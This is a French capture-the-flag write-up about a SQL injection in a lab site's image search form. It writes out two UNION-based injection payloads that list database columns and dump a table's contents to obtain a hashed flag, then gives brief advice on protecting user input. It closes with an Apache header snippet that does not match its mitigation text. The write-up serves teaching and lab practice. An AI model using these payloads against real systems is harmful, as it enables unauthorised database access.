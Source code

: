 # Explications

En testant la page de recherche d'images on peut constater que le formulaire n'est pas protégé contre les injections sql.

(Les injections SQL figurent parmi le top 10 des failles de sécurité web selon l'OWASP.)

On fait une première injection afin de découvrir les champs de la table relative aux images dans la BDD :

- `1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`

On explore la table en utilisant les différents champs maintenant connus : id, url, title, comment (table `list_images`)

- `1 OR 1=1 UNION SELECT title,comment from list_images`

On découvre : "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

# Comment l'éviter ?

Pour éviter les injections SQL il faut impérativement protéger les entrées utilisateur en back. Certaines fonctions permettent de le faire facilement, mais en général les framework font le travail pour nous.

```
<IfModule mod_headers.c>
Header set X-Robots-Tag "noindex, nofollow"
</IfModule>
```
